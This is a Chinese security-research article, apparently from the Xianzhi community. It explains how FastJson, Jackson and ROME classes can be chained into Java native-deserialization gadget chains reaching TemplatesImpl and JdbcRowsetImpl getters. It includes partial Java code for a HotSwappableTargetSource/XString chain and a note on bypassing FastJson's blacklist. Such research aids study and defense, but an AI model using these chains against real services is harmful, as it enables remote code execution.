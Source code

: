

# 利用特殊反序列化组件攻击原生反序列化入口 - 先知社区

利用特殊反序列化组件攻击原生反序列化入口



## 前言

所谓特殊反序列化，就是指自实现了序列化/反序列化逻辑的组件，本文主要讨论以下三种

*   FastJson
*   Jackson（SpringBoot 原生环境自带）
*   ROME（其实并不是特殊反序列化组件，但因为它也经常出现在 toString 利用链中，故放到一起讨论）

本文所述攻击的本质是**将上述组件中的类拼接到反序列化利用利用链中，打的是 Serilizable 入口，而不是特殊反序列化入口**

篇幅有限，无法对上述组件进行详细介绍，请还没了解的读者自行查阅有关文章

## 攻击原理

**这些组件**在实现自己的序列化逻辑（获取对象 field 值）时，会使用**自身类**重写的**toString**方法

在**这些类**的 toString 方法中，会调用**目标类**（也就是放在这些类中的 Gadget 后半部分，例如 TemplatesImpl）的**getter 方法**以获取**目标类**对象中的 field 值

**目标类**`obj`放在**这些类**中

如 `jsonObject1.put("g",obj);` `ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);`

**这些类**包括：`FastJson的JSONObject类、Jackson的POJONode类，ROME的ToStringBean类`

**目标类**getter：`TemplatesImpl#getOutputProperties、LdapAttribute#getAttributeDefinition、JdbcRowsetImpl#getDatabaseMetaData`

值得一提的是，由于是原生反序列化中的攻击，所以要求利用链上的类都要实现 Serilizable 接口，因此无法使用 BCEL 那条链（仅特殊反序列化如 FastJson 可用）

## 利用链分析

### readObject()->任意类 toString()

#### HotSwappableTargetSource & XString

**依赖于 SpringAOP**

测试代码如下（以 JsonObject 为例）

```bash
public static void main(String[] args) throws Exception {        
        Object templatesimpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("g","m");
        JSONObject jsonObject1 = new JSONObject();
        jsonObject1.put("g",templatesimpl);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(v1,v1);
        hashMap.put(v2,v2);
        setValue(v1,"target",jsonObject1);

//      用于 Reference 包裹绕过 FastJSon 高版本 resolveClass 黑名单检查，from Y4tacker
/*        HashMap<Object,Object> hhhhashMap = new HashMap<>();
        hhhhashMap.put(tpl,hashMap);*/

        serialize(hashMap);
```